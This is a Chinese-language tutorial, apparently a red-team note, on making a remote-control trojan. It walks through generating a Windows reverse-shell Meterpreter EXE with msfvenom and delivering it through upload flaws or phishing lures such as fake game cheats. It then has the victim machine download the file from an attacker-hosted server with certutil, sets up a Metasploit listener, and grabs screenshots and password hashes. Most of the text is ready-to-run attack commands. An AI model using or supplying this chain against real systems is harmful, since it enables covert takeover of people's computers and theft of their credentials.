 # 远控木马

远程控制木马被红队广泛使用，一般是由 Metasploit、CobaltStrike 等 C2 控制器生成的系统可执行文件，如 exe、elf、apk、macho 文件。

系统执行木马文件后，会反连至黑客服务器，黑客即可控制受害者计算机或移动设备，如开启摄像头、屏幕截图、文件管理、软件安装等操作。

---

## 一、使用 Metasploit 生成一个 EXE 安装包

Metasploit 让复杂的漏洞攻击流程变得非常简单，一个电脑小白经过几小时的学习，就能对操作系统等主流漏洞发起危害性攻击。

### 1. 使用 Metasploit 的 `msfvenom` 生成后门 EXE 文件

命令格式如下：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<你的IP> lport=<你的端口> -f exe -o <文件名>.exe
```

- `LHOST`：指定攻击者的 IP 地址
- `LPORT`：指定攻击者的监听端口
- `<文件名>.exe`：输出的后门 EXE 文件名

---

## 二、将对应程序放入目标机

一般通过两种方式传播：

1. **文件上传漏洞 + 命令执行（主动）**：如大学 DVWA、Pikachu
2. **文件下载钓鱼 + 诱导执行（钓鱼）**：如 CF 外挂网站外挂.exe、Windows 病毒

### 1. 在攻击者机器上使用 Python 搭建 HTTP 服务器

```bash
python3 -m http.server <端口号>
```

### 2. 在目标 Windows 机器上自主使用 `certutil` 证书下载文件

```bash
certutil -urlcache -split -f http://<攻击者IP>:<端口号>/<文件名>.exe
```

---

## 三、开启 Metasploit 监听（msfconsole）

Metasploit 是一款开源安全漏洞利用和测试工具，集成了各种平台上常见的溢出漏洞和流行的 shellcode，并持续保持更新。

### 1. 进入 Metasploit 控制台

```bash
msfconsole
```

### 2. 使用模块并设置相关参数

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <攻击者IP>
set lport <端口号>
```

### 3. 启动监听

```bash
run
```

---

## 四、尝试获取目标 Windows 机的信息

### 1. **截图命令**
获取目标机的当前屏幕截图：

```bash
screenshot
```

### 2. **获取密码**
尝试提取密码散列：

```bash
hashdump
```

> 注意：如果密码超过 8 位且包含多种元素，破解难度会增加。

